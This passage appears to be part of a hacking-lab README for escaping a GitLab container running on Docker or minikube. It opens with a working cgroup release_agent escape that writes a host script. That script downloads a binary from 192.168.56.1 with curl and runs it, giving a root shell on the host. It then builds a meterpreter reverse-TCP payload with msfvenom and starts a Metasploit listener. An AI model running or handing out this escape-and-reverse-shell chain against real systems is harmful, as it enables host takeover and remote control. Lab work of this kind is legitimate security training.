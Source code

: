 Execute the following commands in your GitLab root shell

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://192.168.56.1:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now you got a root shell from your container host.

## kubernetes cluster (minikube)

If minikube is used, you can easily start and build the container locally:

```bash
# NOTE: if minikube is used with docker desktop, you need to configure docker desktop before. The node got the ip 192.168.59.100
minikube start --memory 4096 --cpus 4
eval $(minikube docker-env)
docker build -t docker.io/hacklab/gitlab-escape -f ./Dockerfile .
```

Deploy Gitlab into Minikube

```bash
kubectl apply -f gitlab-deployment.yaml
```

Forward the pod ports locally:

```bash
kubectl get pods
NAME                                       READY   STATUS    RESTARTS   AGE
gitlab-container-escape-7bbd59fc59-2nrqc   1/1     Running   0          94s

kubectl port-forward gitlab-container-escape-7bbd59fc59-2nrqc 5080:80
kubectl port-forward gitlab-container-escape-7bbd59fc59-2nrqc 50443:443
kubectl port-forward gitlab-container-escape-7bbd59fc59-2nrqc 5022:22
```

Create the meterpreter for the GitLab container

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.59.1 LPORT=4242 -f elf > met-container
```

Start the metasploit framework for the GitLab container connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```
